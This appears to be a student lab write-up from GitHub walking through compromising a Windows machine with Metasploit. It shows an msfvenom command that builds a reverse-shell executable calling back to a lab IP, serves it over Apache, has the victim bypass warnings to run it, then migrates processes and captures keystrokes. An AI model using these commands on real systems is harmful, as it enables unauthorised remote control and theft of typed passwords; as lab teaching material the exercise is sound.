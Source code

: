 # EXP-6: Compromising-windows-using-Metasploit

## AIM:

To Compromise windows using Metasploit 

## DESIGN STEPS:

1) Install kali linux either in partition or virtual box or in live mode

2) Investigate on the various categories of tools as follows:

3) Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

### PROGRAMS:

Find the attackers ip address using ifconfig

#### OUTPUT:
![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/652db2a7-41fe-4f0b-9d6a-bafd45358c66)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

#### OUTPUT:

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/8a94c14f-93c4-44c0-9307-09d091275f2a)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/00951cdd-6e72-425a-a7d3-3861205e75a1)

Start apache server sudo systemctl apache2 start

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/ab5917bc-b667-43e6-8569-afac549df4de)

Check the status of apache2

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/2b2a7279-1968-4f7b-ac9d-25a6fbd9d8f8)

### Invoke msfconsole:'

#### OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler


![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/f81fb9a9-568e-48de-a97d-224f14916b52)

set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/8905bab0-5573-4be1-82ca-a6a510ed478f)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/3b376e36-9001-421e-9301-ffb999a638f1)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/89123af1-f1c2-4cfb-a5a8-c24bdc714336)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/d3eab66d-7142-4366-ac4d-d2644fc02717)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/6b83ef4d-6410-45d3-a6ae-f63b3b13c953)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/2ee279ad-7ce2-426b-960c-a92a0c067e8a)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
